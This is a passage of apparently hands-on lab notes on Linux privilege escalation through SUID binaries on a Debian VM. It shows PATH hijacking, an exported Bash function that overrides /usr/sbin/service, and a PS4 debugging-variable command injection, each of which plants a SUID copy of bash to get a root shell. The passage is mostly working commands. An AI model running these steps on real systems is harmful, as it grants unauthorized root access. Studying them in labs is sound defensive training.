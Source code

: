 ```
export PATH=/tmp:$PATH
```

* Rin the executable with an absolute path

```
/usr/local/bin/suid-env
id
```

### SUID and SGID Executables-Abusing Shell Features 1

* Detection

```
 find / -type f -perm -04000 -ls 2>/dev/null
```

* Make note of all the SUID binaries
* The `/usr/local/bin/suid-env2` executable is identical to `/usr/local/bin/suid-env` except that it uses the absolute path of the service executable `/usr/sbin/service` to start the apache2 webserver. Verify this with strings:

```
strings /usr/local/bin/suid-env2
```

* In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.
* Verify the version of Bash installed on the Debian VM is less than 4.2-048:

```
/bin/bash --version
```

Create a Bash function with the name `/usr/sbin/service` that executes a new Bash shell (using -p so permissions are preserved) and export the function:

```
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
```

* Run the suid-env2 executable to gain a root shell:

```
/usr/local/bin/suid-env2
```

#### SUID and SGID Executables-Abusing Shell Features 2

* Note: This will not work on Bash versions 4.4 and above.
* When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.
* Run the `/usr/local/bin/suid-env2` executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of `/bin/bash`:

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```
